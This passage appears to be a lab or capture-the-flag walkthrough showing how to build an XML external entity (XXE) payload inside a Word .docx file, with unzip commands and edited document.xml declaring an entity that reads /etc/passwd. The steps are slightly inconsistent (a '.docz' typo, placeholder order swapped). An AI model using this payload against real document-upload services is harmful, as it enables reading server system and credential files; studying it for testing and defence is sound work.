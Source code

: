Now we have to `unzip` the `.docz` file. And then follow the commands.

```bash
unzip script.docx 
cd word
nano document.xml
```

Now you should see this 

```bash
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
```

First you have to add this line at the 2nd line 

```bash
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>YOUR_NAME</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
```

After that we have to add `&test;` instead of `YOUR_NAME` in the file to execute the `passwd` line.
